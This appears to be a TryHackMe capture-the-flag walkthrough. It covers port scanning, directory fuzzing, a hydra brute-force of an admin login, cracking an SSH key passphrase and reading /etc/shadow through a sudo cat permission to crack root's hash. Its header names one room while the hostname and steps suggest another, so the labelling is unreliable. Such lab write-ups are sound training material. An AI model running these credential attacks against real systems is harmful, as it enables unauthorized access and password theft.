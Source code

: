 ```bash
# PLATFORM          . THM
# CTF NAME          . Brooklyn Nine Nine
# DESCRIPTION       . This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/brooklynninenin
```

```bash
sudo nmap -sSVC -T5 10.10.176.165 -p- -oN brute
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b0ebf14fa54b35c4415edb25da0ac8f (RSA)
|   256 d03a8155135e870ce8521ecf44e03a54 (ECDSA)
|_  256 dace79e045eb1725ef62ac98f0cfbb04 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

- I've decided to fuzz the webserver since there wasn't anything interesting going on and I did not have credentials for ssh.

```
ffuf -u http://10.10.176.165/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
```

- on this page, we find a simple login form along with a hint in the source code

```
<!-- Hey john, if you do not remember, the username is admin -->
```

- I ran `hydra` against the login form to find the password.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.176.165 http-post-form "/admin/:user=admin&pass=^PASS^:F=invalid" -I
```

- Here we find the `RSA private key` for user `john` and one of the flags.

- The key is protected by a passphrase which we can crack using `john`. 

```bash
ssh2john rsa > rsa_crack
john rsa_crack

# where rsa is the file containing the private RSA key.
```

- The second flag is located in `/home/john/user.txt`

```
john@bruteit:~$ sudo -l

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

- That's an easy privilege escalation vector.

- To find root's password, we can use `sudo cat /etc/shadow` and get the `root` hash. 

- Save it to a file and run john against it. 

```
/opt/john/run/john rootpasswd 

f[redacted]l         (root)     
```

- The last flag is located in `/root/root.txt`.

- Of course, you can directly use `sudo cat /root/root.txt` but the challenge asks for root's password.
